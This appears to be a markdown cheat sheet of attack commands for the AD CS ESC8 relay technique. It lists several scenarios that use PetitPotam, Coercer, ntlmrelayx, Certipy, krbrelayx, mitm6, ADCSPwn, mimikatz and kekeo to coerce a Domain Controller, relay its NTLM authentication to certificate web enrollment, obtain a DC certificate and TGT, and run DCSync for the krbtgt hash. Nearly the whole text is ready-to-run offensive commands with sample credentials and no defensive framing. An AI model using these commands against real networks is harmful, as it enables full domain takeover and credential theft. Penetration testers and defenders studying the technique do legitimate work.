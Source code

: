 # General Overview: 
AD CS supports several HTTP-based enrollment methods if additional server roles are installed (Certificate enrollment web service). There are three methods that can test to abuse this technique.

An attacker can use PetitPotam to force a Domain Controller to relay its NTLM credentials to a target host. These credentials can then be forwarded to the Active Directory Certificate Services (AD CS) Web Enrollment pages, allowing the attacker to enroll for a Domain Controller certificate. This certificate can be used to request a Ticket Granting Ticket (TGT), enabling a Pass-the-Ticket attack that compromises the entire domain.

# # Abusing ESC8 Certificate Templates

## Scenario 1 (Certipy, NTLMrelayx, PetitPotman):
- certipy-ad relay -ca 172.21.1.1
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- python3 PetitPotam -d megacorpone.com -u afsimmons -p Spawn123! 172.21.1.5 MEGACORP
## Scenario 2: 
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- mimikatz> misc::efs /server:dc.lab.local /connect:172.21.1.5 /noauth
-  kekeo> base64 /input:on
- kekeo> tgt::ask /pfx:"BASE64-CERT-FROM-NTLMRELAY" /user:dc$ /domain:megacorpone.com /ptt
- mimikatz> lsadump::dcsync /user:krbtgt
## Scenario 4:
- sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
- sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
## Scenario 5:
- Source: https://github.com/bats3c/ADCSPwn
- adcspwn.exe --adcs "cs server" --port [local port] --remote [computer]
- adcspwn.exe --adcs cs.megacorpone.com
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--port 9001
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com --output C:\Temp\cert_b64.txt
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--username megacorpone.com\afsimmons --password Spawn123! --dc dc.megacorpone.com
## Scenario 6: 
 - impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
 - python3 coercer.py <DC_IP> <YOUR_IP>
 - python3 getTGT.py -dc-ip <DC_IP> -pfx <CERT_FILE.pfx> -no-pass

## Netexec:

### List All PKI Enrollment Servers

- nxc ldap 172.21.0.0 -u user -p pass -M adcs

### List All Certificates Inside a PKI
- nxc ldap 172.21.0.0  -u user -p pass -M adcs -o SERVER=xxxx